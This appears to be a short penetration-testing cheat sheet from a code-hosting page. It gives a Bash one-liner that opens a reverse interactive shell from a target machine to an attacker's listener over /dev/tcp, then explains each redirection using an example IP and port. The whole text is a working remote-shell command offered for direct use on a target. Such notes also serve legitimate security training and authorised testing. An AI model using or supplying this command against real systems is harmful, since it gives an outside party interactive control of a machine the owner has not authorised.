 Bash one-liner to create a reverse interactive shell from the target to your attack machine: 
- Enter the  following in the target: 

```
/bin/bash -c 'bash -i &> /dev/tcp/[attack ip]/[port] 0>&1'
```

From the Bash manpage: 
- `c string` : commands are read from string.
- `>& (same as &>)` : redirect standard output (1) and standard error (2); i.e., 2>&1 
  - This means: `&>` redirects the standard output (fd 1) and error (fd 2) to the socket opened to the IP 192.166.95.2 which would be listening on port 1234 (the port you indicate in [port] ).
- `0>&1` : redirect standard input (fd 0) to the same place as standard output (fd 1).
  - This would literally mean '0' (standard input) is attached to '1' (standard output).
  - Therefore, stdin (fd 0) is attached to stdout (fd 1) and (from the above:  &> ) we know that the stdin for this bash process is available to the attacker listening on port 1234.

---

